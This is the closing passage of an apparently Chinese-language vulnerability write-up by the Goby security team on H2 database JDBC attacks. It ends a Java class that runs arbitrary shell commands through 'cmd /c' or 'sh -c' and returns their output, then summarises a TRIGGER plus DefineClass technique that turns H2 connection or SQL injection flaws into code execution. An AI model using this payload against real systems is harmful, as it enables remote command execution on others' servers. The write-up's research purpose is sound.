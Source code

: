 ```java
            Process process = null;
            String[] executeCmd = null;
            if (os.contains("win")) {
                if (cmd.contains("ping") && !cmd.contains("-n")) {
                    cmd = cmd + " -n 4";
                }
                executeCmd = new String[]{"cmd", "/c", cmd};
            } else {
                if (cmd.contains("ping") && !cmd.contains("-n")) {
                    cmd = cmd + " -t 4";
                }
                executeCmd = new String[]{"sh", "-c", cmd};
            }
            try {
                process = Runtime.getRuntime().exec(executeCmd);
                Scanner s = new Scanner(process.getInputStream()).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                s = new Scanner(process.getErrorStream()).useDelimiter("\\a");
                output += s.hasNext()?s.next():"";
                return output;
            } catch (Exception e) {
                e.printStackTrace();
                return e.toString();
            } finally {
                if (process != null) {
                    process.destroy();
                }
            }
        } else {
            return "command not null";
        }
    }
}
```

## 总结

本次漏洞利用数据库连接信息触发漏洞，利用 H2 导致可以进行任意命令。我们采用 `TRIGGER`  + `DefineClass` 完成对漏洞的利用，通过我们的研究分析发现该技术不光可应用在数据库连接中，更多可应用于 H2 的 SQL 注入，完成 SQL 注入 ->  代码执行的过程。

## 参考

- <https://pyn3rd.github.io/2022/06/06/Make-JDBC-Attacks-Brillian-Again-I/>


<br/>

<br/>

**[Goby 官网: https://gobysec.net/](https://gobysec.net/)** 

如果您有任何反馈建议，您可通过提交 issue 或是以下方式联系我们：

1. GitHub issue: [https://github.com/gobysec/Goby/issues](https://github.com/gobysec/Goby/issues)
2. 微信群：关注公众号“GobySec“，回复暗号”加群“ （社群优势：可第一时间了解Goby功能发布、活动等咨询）
3. Telegram Group: [http://t.me/gobies](http://t.me/gobies) 
4. 推特：[https://twitter.com/GobySec](https://twitter.com/GobySec)
